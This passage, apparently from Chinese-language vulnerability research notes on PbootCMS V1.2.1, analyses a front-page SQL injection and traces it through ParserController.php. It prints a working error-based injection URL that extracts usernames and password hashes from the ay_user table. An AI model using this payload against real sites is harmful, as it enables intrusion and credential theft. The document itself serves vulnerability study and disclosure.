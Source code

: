 根据6.0可以看到带入了进入了 insert 那么我们传的二维数组刚好可以控制key 带入数据库查询引发注入.

## 0X01.3 前台首页注入

0x08.3.1 漏洞演示
url:

```
http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123 
```

![image](../img/02442481a507d6ca2d14831520700b13.png)

### 0x01.3.2 漏洞解读

文件地址：PbootCMS-V1.2.1\apps\home\controller\ParserController.php
方法：index(

```
// 首页 骚操作 注入
    // parserAfter -> parserSpecifyListLabel
    public function index()
    {
        $content = parent::parser('index.html'); // 框架标签解析
        $content = $this->parser->parserBefore($content); // CMS公共标签前置解析
        $content = $this->parser->parserPositionLabel($content, - 1, '首页', SITE_DIR . '/'); // CMS当前位置标签解析
        $content = $this->parser->parserSpecialPageSortLabel($content, 0, '', SITE_DIR . '/'); // 解析分类标签
        $content = $this->parser->parserAfter($content); // CMS公共标签后置解析
        $this->cache($content, true);
    } 
```

文件地址：apps\home\controller\ParserController.php
方法：parserAfter()

```
跟进 $content = $this->parser->parserAfter($content); 这个方法 
```
